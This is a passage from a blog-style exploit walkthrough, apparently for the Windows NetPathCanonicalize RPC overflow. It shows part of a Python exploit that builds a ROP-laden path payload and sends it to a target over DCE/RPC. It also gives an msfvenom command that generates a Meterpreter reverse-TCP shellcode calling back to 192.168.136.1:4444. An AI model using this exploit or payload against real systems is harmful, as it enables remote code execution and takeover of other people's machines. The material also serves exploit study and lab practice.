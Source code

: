	    pyload = payload()
	    jumper_rop = jmprop()
    
	    jumper = list("\x42" * ldsize)
	    jumper[jumperoffset:(jumperoffset + len(jumper_rop))] = jumper_rop
    
	    path = to_unicode(prefix) + pyload + trigger + pad + ''.join(jumper) + "\x00" * 2
    
	    print "Evil Jumper size: %s " % len(jumper)
	    print "Evil Payload size: %s " % len(pyload)
	    print "Evil Path size: %s " % len(path)
    
	    # Create the call stub string
	    stub = ndr_uwstring(server)
	    stub += ndr_wstring_prebuilt(path)
	    stub += ndr_long(outbuf)
	    stub += ndr_wstring(prefix)
	    stub += ndr_long(path_type)
	    stub += ndr_long(flags)
    
	    dce = connect(target)
	    print "[*]\tCall stub size %s" % len(stub)
    
	    # NetPathCanonicalize func. opcode 0x1f
	    dce.call(0x1f, stub)
    
	    print "[*]\tPayload delivered"
	
		if __name__ == "__main__":
	    	if len(sys.argv) == 2:
	        	target = sys.argv[1]
	        print "[*]\tTarget: %s" % (target)
	        exploit(target)
	    else:
	        print "[*]\t%s <ipaddress>" % sys.argv[0]
{% endhighlight %}


The moment of truth do we have space of a shell.

##PROFIT

Turns out metasploit did work his magic and pulled that one off heheheheh, **306 bytes** SWEET.  



  
  
{% highlight python %}
msfvenom --platform windows  -p windows/meterpreter/reverse_tcp -a x86 \
 -b '\x00\x0a\x0d\x5c\x5f\x2f\x2e\x40' LHOST=192.168.136.1 LPORT=4444 --smallest -f py
Payload size: 306 bytes
Final size of py file: 1474 bytes
{% endhighlight %}
![Rop Offset]({{ site.url }}/assets/gameover.png)
